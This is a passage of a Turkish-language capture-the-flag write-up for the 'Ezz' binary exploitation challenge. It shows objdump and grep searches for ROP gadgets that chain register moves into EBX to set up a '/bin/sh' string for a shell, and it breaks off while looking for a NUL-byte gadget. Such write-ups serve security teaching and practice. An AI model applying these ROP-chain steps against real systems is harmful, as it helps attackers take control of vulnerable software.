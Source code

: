 ![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Ezz/screenshots/8.png)

Şöyle bişey yapabiliriz bu 128 bize ait olan yere uzunca / sonra bin/sh yazarız ve bir ROP ile bunu EBX’e aktarırız. Bize lazım olan şey ama sh’ten sonra NUL byte eklemek. İlk önce bunu EBX’e aktarma yolunu bulalım. EBX’e aktarım ROPlarını bulalım:

```shell
objdump -S ezz -M intel | grep "mov    ebx," -A 4 | grep ret -B 4

--
 8071b7f:    ff 15 f0 f9 0e 08        call   DWORD PTR ds:0x80ef9f0
 8071b85:    89 d3                    mov    ebx,edx
 8071b87:    3d 01 f0 ff ff           cmp    eax,0xfffff001
 8071b8c:    0f 83 7e 2a 00 00        jae    0x8074610
 8071b92:    c3                       ret    
--
```

Aramada düz EAX’tan EBX’e yok ama EDX’ten var. CMP ve JAE var ama EAX’ı 0x0 tutarsak buna takılmayız. Bu sefer de EDX’e var mı diye baklım:

```shell
objdump -S ezz -M intel | grep "mov    edx," -A 5 | grep ret -B 5

--
 80ac592:    89 fa                    mov    edx,edi
 80ac594:    5b                       pop    ebx
 80ac595:    5e                       pop    esi
 80ac596:    5f                       pop    edi
 80ac597:    5d                       pop    ebp
 80ac598:    c3                       ret    
--
```

Yine düz yok ama EDI’den var. 4 adet junk yerleştirmemiz lazım. Bu sefer EDI’ye bakalım:

```shell
objdump -S ezz -M intel | grep "mov    edi," -A 4 | grep ret -B 4

--
 805c86d:    89 c7                    mov    edi,eax
 805c86f:    89 d6                    mov    esi,edx
 805c871:    8b 44 24 04              mov    eax,DWORD PTR [esp+0x4]
 805c875:    c3                       ret    
--
```

Bingo! EAX’tan direk geçiş var. EAX’a mov var ama bizim uzunca slash ile beraber olan /bin/sh’ımız EDI’ye gittiği için sıkıntı yok. Bu noktada bize s harfinden sonra NUL byte yazacak bir gadget lazım çünkü stringi NUL byte’a kadar okur. Biraz göz gezdirdikten sonra şöyle bir şeye rastladım:
